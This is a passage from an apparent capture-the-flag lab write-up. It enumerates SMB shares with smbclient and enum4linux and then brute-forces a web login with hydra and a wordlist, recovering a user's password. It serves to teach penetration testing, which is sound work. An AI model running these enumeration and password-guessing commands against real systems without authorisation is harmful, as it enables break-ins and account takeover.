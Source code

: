 ```
smbclient -N -L //10.10.20.219
```

```
	Sharename       Type      Comment
	---------       ----      -------
	yotf            Disk      Fox's Stuff -- keep out!
	IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

so there is one intersting share named `yotf` so we can try to list it's contents -

```bash
smbclient -N //10.10.20.219/yotf
```

Output :

```
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Oh! We can not surf the share anonymously.

We can use the tool `enum4linux` for enumerating the samba :

```bash
enum4linux 10.10.20.219
```

From the output we got the most important piece of information  :

```
S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)
```

Now we know about two users - `fox` and `rascal`

#### Port 80

Using the two discovered usernames we can try to bruteforce the password using hydra -

```bash
hydra -l rascal -P rockyou.txt http-get://10.10.219.226
```


Output :

```
[80][http-get] host: 10.10.219.226   login: rascal   password: geegee
```


Hohu! We got the password now with this creds we can login to the apache server -


<img width="1802" height="928" alt="Screenshot From 2025-09-16 15-34-09" src="https://github.com/user-attachments/assets/0c9bdd63-c8a9-4b90-a2bc-685a7f858379" />


Whatever we enter in the search bar it says "No file returned" -

